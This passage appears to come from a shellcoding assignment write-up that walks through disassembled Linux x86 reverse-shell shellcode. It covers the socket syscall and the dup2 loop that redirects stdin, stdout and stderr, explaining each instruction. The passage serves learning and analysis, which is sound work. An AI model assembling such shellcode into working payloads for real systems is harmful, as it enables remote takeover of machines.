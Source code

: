 I will divide it in the blocks of each syscall. I will not go so in detail of the functions and arguments because that I already did in the second assignment.

### socketcall - socket
``` assembly
0x0804c040 <+0>:	xor    ebx,ebx
0x0804c042 <+2>:	mul    ebx
0x0804c044 <+4>:	push   ebx
0x0804c045 <+5>:	inc    ebx
0x0804c046 <+6>:	push   ebx
0x0804c047 <+7>:	push   0x2
0x0804c049 <+9>:	mov    ecx,esp
0x0804c04b <+11>:	mov    al,0x66
0x0804c04d <+13>:	int    0x80
```
First ebx and eax is set to zero and zero is pushed to the stack. Ebx will then be increased to 1 and also pushed to the stack which is the argument type which stands for SOCK_STREAM and will be used by the function. Then 0x2 is pushed to the stack which stands for AF_INET as the domain argument. Then the pointer to the top of the stack/arguments is saved in ecx. In eax 0x66 is moved which is the execution of socketcall. We set before the ebx to 1 which stands is the call for socket so a socket will be created here after the syscall is execued with int 0x80.

![socketcall-socket](images/revshell/socketcall-socket.png)

### dup2  
``` assembly
0x0804c04f <+15>:	xchg   ebx,eax
0x0804c050 <+16>:	pop    ecx
0x0804c051 <+17>:	mov    al,0x3f
0x0804c053 <+19>:	int    0x80
0x0804c055 <+21>:	dec    ecx
0x0804c056 <+22>:	jns    0x804c051 <code+17>
```
Here we see that ebx and eax change registers and the 0x2 is poped from the stack to ecx. Then 0x3f is saved in eax which is the dup2 function which is for duplicating file descriptor. This will be executed and the ecx will be decreased by 1. Then this function will be called again until ecx is negative. So this will be called 3 times (so for stderr, stdout, stdin).
